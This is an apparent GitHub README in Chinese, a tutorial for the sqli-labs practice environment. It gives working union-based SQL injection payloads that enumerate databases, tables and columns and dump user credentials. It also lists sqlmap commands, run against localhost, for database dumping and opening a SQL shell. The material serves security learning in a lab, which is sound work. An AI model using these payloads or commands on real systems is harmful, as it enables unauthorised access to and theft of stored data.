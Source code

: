 ## Some Tools ,Writeup or Labs About Sql-Injection
#### 1、sqlmap 
[sqlmapproject-sqlmap.zip](Tools/sqlmapproject-sqlmap.zip)

#### 2、sqli-labs
[sqli-labs.zip](Src/sqli-labs.zip)

#### 3、sqlli-labs参考WP
[sqli-labs参考.pdf](Book/sqli-labs参考.pdf)

#### 4、sqlli-labs参考WP
[sqlmap教程.pdf](Book/sqlmap教程.pdf)

## 简单入门
### 一、Introduction
Sqli-labs是一个印度程序员写的，用来学习sql注入的一个游戏教程
官方地址传送门 [https://github.com/Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs)
至于环境搭建，可以通过docker部署一下或者phpStudy本地部署一下[http://phpstudy.php.cn/](http://phpstudy.php.cn/),部署详情可参照本书(p3)[https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqli-labs参考.pdf](https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqli-labs%E5%8F%82%E8%80%83.pdf)。
<!--more-->
### 二、通过sqli-labs-Less-1 学习一些基本mysql操作
在环境搭建好之后我们能看到每个题目都有一个描述把本题的考点指出，这也意味着降低了我们的难度
![](image/Sqli-Labs-Sqlmap-基础篇/1.png)
#### Less-1
**hint**:GET-Error based-Single quotes-String

**Hack**:
1、进入后要求GET传入一个id
![](image/Sqli-Labs-Sqlmap-基础篇/2.png)
2、每传入一个id屏幕上显示不同的name和password
![](image/Sqli-Labs-Sqlmap-基础篇/3.png)
3、传入一个单引号试探注入点，发现报错
```
.....  syntax to use near ''1'' LIMIT 0,1' at line 1...

```
思考为什么会出现`''1'' LIMIT 0,1'`,最外面一组单引号是报错的显示，所以在sql语句中应该是`'1'' LIMIT 0,1`,其实`1'`是我们传的参数，所以大致能猜测到访问数据库语句为
```
SELECT name,Password FROM users WHERE id='$id' LIMIT 0,1
```
4、过程
首先为了sql注入，我们需要拿一个`'`来截断 `id='$id'`，并且在末尾添加#或者--+来注释，（注意url中遇到空格，#等字符需要url编码一次）,比如我们可以输入`1 'union select name,Password FROM users #`（当然现在还不知道数据库名和字段），另外本题应该只展示拿到的第一个数据。
```
SELECT name,Password FROM users WHERE id='1'union select name,Password FROM users # ' LIMIT 0,1;
```
![](image/Sqli-Labs-Sqlmap-基础篇/4.png)

5、基本知识储备
当我们不知道数据库名，表名字段名时，需要去爆库，原理其实就是MySQL版本大于5.0时，有个默认数据库information_schema，里面存放着所有数据库的信息(比如表名、 列名、对应权限等)，通过这个数据库，我们就可以跨库查询，爆表爆列。
爆库的标准姿势
```
select schema_name from information_schema.schemata;     //猜数据库

select table_name from information_schema.tables where table_schema='xxxxx';     //猜某数据库的数据表

Select column_name from information_schema.columns where table_name='xxxxx';     //猜某表的字段名
```
在mysql中可以直接拿数字作为order by或者group by的参数,但是数字一定要小于我们拿出来的列数否者报错
![](image/Sqli-Labs-Sqlmap-基础篇/5.png)
另外concat()能将一些字符串连接一个字符串适用于一条数据,group_concat()能够将一张表的数据的一些数据分组合并起来，适用性比较广
6、所以本题基本payload,先通过传id=-1让第一句为空，展示出第二句
首先看sql语句中拿了多少列数据
```
1' order by 3%23    //不报错
1' order by 4%23    //报错
```
所以大概有3列数据，一般能想得到多拿了一个id，所以我们可以通过，第二列第三列数据拿到信息
首先爆数据库有哪些
```
-1' union select 1,2,group_concat(schema_name) from information_schema.schemata%23
```
![](image/Sqli-Labs-Sqlmap-基础篇/6.png)
拿到五个数据库`information_schema,challenges,mysql,performance_schema,security`
现在查询security数据库哪些表
```
-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
```
拿到`emails,referers,uagents,users`
现在查询users的所有字段
```
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
```
拿到`id,username,password`
最后可以拿到所有人的账号密码
```
-1' union select 1,group_concat(username),group_concat(password) from users%23
```
![](image/Sqli-Labs-Sqlmap-基础篇/7.png)
### 三、sqlmap使用
sqlmap是基于python2.6/2.7的，所以推荐大家拿virtualenv搭建py2.7虚拟环境,保不定以后有用,教程[https://kit4y.github.io/2018/12/20/win10-环境下使用virtualenv搭建py虚拟环境/](https://kit4y.github.io/2018/12/20/win10-环境下使用virtualenv搭建py虚拟环境/)，Sqlmap是开源的自动化SQL注入工具,当然这是在于自己手注不进去的时候可以参考一下，github地址为[https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)，功能参考书[https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqlmap教程.pdf](https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqlmap%E6%95%99%E7%A8%8B.pdf)
#### 一些常用使用命令
##### 1、是否能注入
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"
```
##### 2、获取所有的数据库
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --dbs
```
##### 3、当前库
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --current-db
```
##### 4、查询某数据库的所有表（比如security）
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"  -D security --tables
```
##### 5、暴力查询所有的表
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"   --tables
```
##### 6、列出security库中users表中的所有列
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"   -D security -T users --columns
```
(-D dbname指定数据库名称、-T tablename：指定某数据表的名称、--columns：列出指定表上的所有列)
##### 7、导出三个数据列中所有的数据
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"   -D security -T users -C id,username,password --dump
```
##### 8、提供一个sql shell
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --sql-shell
```
更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)